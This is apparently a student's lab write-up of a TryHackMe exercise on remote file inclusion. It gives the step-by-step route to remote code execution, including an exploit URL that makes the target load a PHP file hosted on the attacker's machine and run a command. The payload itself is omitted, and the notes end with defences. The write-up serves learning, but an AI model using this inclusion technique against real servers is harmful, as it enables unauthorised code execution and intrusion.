

# Lab Title: RFI Lab #6 - Remote File Inclusion & RCE
Date: 2025-09-10

## Target
- TryHackMe LFI room (Lab #6 - Playground)

## Commands / Steps
1. Created a malicious file `evil.txt` with PHP code:
   <php ...payload omitted... >

2. Hosted the file locally with Python: python3 -m http.server 8000
3. Crafted the RFI exploit URL to include the malicious file: http://10.10.227.16/playground.php?file=http://10.10.219.135:8000/evil.txt&cmd=hostname

4. Sent request with cmd=hostname to confirm Remote Code Execution (RCE). 

## Results
- The server executed the hostname command.
- Output revealed the victim machine’s hostname (proving code execution).

## Screenshots
- 

## What I Learned
- RFI lets an attacker load remote files into the server’s process.
- By injecting PHP code, I turned LFI into RCE.
- The hostname command proves execution happens on the target, not the attacker.
- Defense: disable allow_url_include in PHP, validate input strictly, and use whitelists for includes.